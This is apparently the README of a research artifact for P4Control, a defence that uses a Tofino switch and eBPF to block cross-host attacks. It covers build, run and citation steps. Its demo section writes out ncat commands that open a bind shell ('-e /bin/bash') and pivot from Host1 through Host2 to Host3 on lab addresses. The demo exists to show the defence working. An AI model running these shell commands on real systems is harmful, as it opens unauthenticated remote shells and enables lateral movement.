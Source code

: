 # P4Control

This repository contains the artifacts for the paper titled "P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF", accepted at 45th IEEE Symposium on Security and Privacy (IEEE S&P / Oakland), 2024. For questions, please reach out to [Osama Bajaber](mailto:obajaber@vt.edu).

## Dependencies
- Python 3.7 
- Tofino Switch SDE 9.7.0
- BCC (Linux 5.15.0)
- Bison 3.8.2
- Flex 2.6.4
- Scapy 2.4.5

## Setup
Current settings assume three hosts are linked to the Tofino switch, each assigned with the following IP addresses and labels. (feel free to adjust these settings as per your topology)
- ```Host1```, 10.0.0.1, Label={HOST1}
- ```Host2```, 10.0.0.2, Label={HOST2}
- ```Host3```, 10.0.0.3, Label={HOST3}

## How to use

### Run P4 Switch program
Ensure that the Tofino switch SDE is installed and set the environment variables `SDE=~/bf-sde-9.7.0/` and `SDE_INSTALL=~/bf-sde-9.7.0/install`. Note: The `p4_build.sh` and `run_switchd.sh` scripts can be found within your SDE directory `/bf-sde-9.7.0/`.

Step 1: Build the P4 program
```
./p4_build.sh -p switch/p4control.p4
```

Step 2: Run the switch program in the Tofino switch
```
./run_switchd.sh -p p4control
```

Step 3: Start the control plane
```
python3 switch/controller.py
```

This will load ```P4Control``` in the designated Tofino switch and run the control plane. The current control plane code inserts the needed ```NetCL``` policies to block traffic between ```Host1``` and ```Host3```.

### Run eBPF-based host agent

Now, as the switch program is running, load the eBPF host agent to the hosts. We tested the host agent on Ubuntu 20.04.1 LTS, but it should work with other versions. Make sure to update the correct interface name in ```host_agent/host_agent.py```.

Step 0: ```host_agent/host_agent_ebpf.c``` provides the ability to manually label a specific PID with a custom DIFC label for easy configuration

In your opened terminal, check the PID of the current bash process by executing the following
```
 ps
```
 
Copy the PID of the bash process to the defined ```TAGGED_TERMINAL``` variable at the top of ```host_agent/host_agent_ebpf.c```
```
u32 TAGGED_TERMINAL = <PID>;
```

Step 1: Run the host agent in all three hosts. The following command will attach all the needed eBPF programs inside the kernel
```
python3 host_agent/host_agent.py
```

### Perform a cross-host attack

To perform a cross-host attack from Host1 to Host3, using Host2 as a stepping stone

Step 1: In ```Host2``` and ```Host3```, start a ```ncat``` listener 
```
sudo ncat -nlvp 9999 -e /bin/bash
```

Step 2: From ```Host1```, connect to ```Host2```
```
sudo ncat 10.0.0.2 9999
```

Step 3: From ```Host1``` establish a session to ```Host3``` through ```Host2```
```
ncat 10.0.0.3 9999
```

P4Control will block the last connection as the label {Host1} is detected.

### Compile ```NetCL``` rules

To compile ```NetCL``` rules

Step 1: Run the following command
```
./netcl-compile -i <netcl_rules> -o <compiled_rules>
```

Step 2: To add the compiled rules to the switch, copy the content of ```<compiled_rules>``` to ```switch/netcl.py``` and re-run the control plane script
```
python3 switch/controller.py
```

### Run custom tools

We provide custom Scapy tools to send and receive customized packets with DIFC headers. These tools can be used to generate synthetic traffic to test the switch configurations

Step 1: At the receiving host, run the following to start sniffing packets
```
python3 custom-receive.py
```

Step 2: At the sending host, run the following command to send the custom packet
```
python3 custom-send.py <destination_IP> <label> <tracker> <message>
```


## Cite the paper

If you like or use our work, please cite us using:

```
@inproceedings{bajaber2024p4control,
  title={P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF},
  author={Bajaber, Osama and Ji, Bo and Gao, Peng},
  booktitle={IEEE Symposium on Security and Privacy (SP)},
  year={2024},
}
```
